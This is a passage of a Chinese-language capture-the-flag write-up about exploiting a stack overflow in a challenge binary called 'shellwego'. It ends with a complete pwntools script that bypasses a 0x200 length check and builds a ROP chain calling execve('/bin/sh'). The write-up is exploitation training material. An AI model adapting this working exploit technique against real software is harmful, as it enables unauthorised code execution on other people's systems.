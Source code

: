 翻到func4上面有如上内容，**看到了一个0x200的限制，所以可以先猜测这个地方是对输入的字符有0x200的长度限制，同时注意到func5中会调用strings\_genSplit，根据' '对字符串进行分析，其返回值我上面已经提到了。**

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/11/attach-fec1af3d6463502bea9aeda6b4014c70d911daf7.png)

**所以可以很顺利的推测，这个0x200的限制应该是对分割后的每一个字符串进行限制，所以我想到了如下payload，pay=b'echo '+b'a'\*0x150+b' '+b'a'\*0x150，发现确实打崩了程序!!!**

第三阶段
----

第二阶段我们已经找到了利用点并且让程序dump，这种栈溢出的难点就在于找到溢出点，找到了后对于一个Pwn手来说打这个都不是什么大问题

实际操作的时候发现'unk\_func0b04'字符出竟然也在栈上，那么调整一下padding就好了。

![image.png](https://shs3.b.qianxin.com/attack_forum/2024/11/attach-b71db3629dc26dfe30d72322964c8baaf7dc74d1.png)

- exp

```python
from pwn import *
from pwnlib.util.packing import u64
from pwnlib.util.packing import p64
context(os='linux', arch='amd64', log_level='debug')
p = process("/home/zp9080/PWN/shellwego")
# p=gdb.debug("/home/zp9080/PWN/shellwego",'b *0x401265')
elf = ELF("/home/zp9080/PWN/shellwego")
def dbg():
    gdb.attach(p,'b *0x4C184F')
    pause()

dbg()
payload=b'cert nAcDsMicN S33UAga1n@#!'
p.sendline(payload)

poprdi_ret = 0x444fec
poprsi_ret = 0x41e818
poprdx_ret = 0x49e11d
poprax_ret = 0x40d9e6
syscall = 0x40328c

#unk_func0b04: 13  0xd
#用' '绕过cmp rdx,0x200
payload =b'echo '+b'a'*0x1f0 + b' ' + b'+'*0x33
payload += p64(poprdi_ret)
payload += p64(0)
payload += p64(poprax_ret)
payload += p64(0)
payload += p64(poprsi_ret)
payload += p64(0x59FE70)
payload += p64(poprdx_ret)
payload += p64(20)
payload += p64(syscall)

payload += p64(poprdi_ret)
payload += p64(0x59FE70)
payload += p64(poprax_ret)
payload += p64(59)
payload += p64(poprsi_ret)
payload += p64(0)
payload += p64(poprdx_ret)
payload += p64(0)
payload += p64(syscall)

p.sendlineafter("nightingale#",payload)
p.sendline("/bin/sh\x00")
```